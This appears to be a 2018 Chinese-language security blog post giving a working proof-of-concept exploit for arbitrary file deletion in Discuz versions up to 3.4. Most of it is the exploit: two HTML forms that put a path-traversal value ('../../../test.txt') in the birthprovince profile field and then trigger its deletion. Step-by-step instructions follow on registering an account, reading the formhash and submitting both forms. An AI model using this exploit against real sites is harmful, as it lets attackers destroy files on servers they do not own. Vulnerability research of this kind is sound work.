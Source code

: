 ```yaml
---
title: "discuz 任意文件删除"
date: 2018-03-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



漏洞影响范围 discuz <= 3.4

<!--more-->

**exp**

```
<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="text"name="birthprovince" id="text" value="../../../test.txt" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>

<br />

<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa" method="POST" enctype="multipart/form-data">
<input type="file"name="birthprovince" id="file" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>
```

首先在前台注册账号

个人中心 修改个人资料

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461557.jpg)

右键查看 formhash

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461560.jpg)

修改 exp 中的网址

填上要删除的文件 formhash 选择文件

两个 submit 分别提交

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461562.jpg)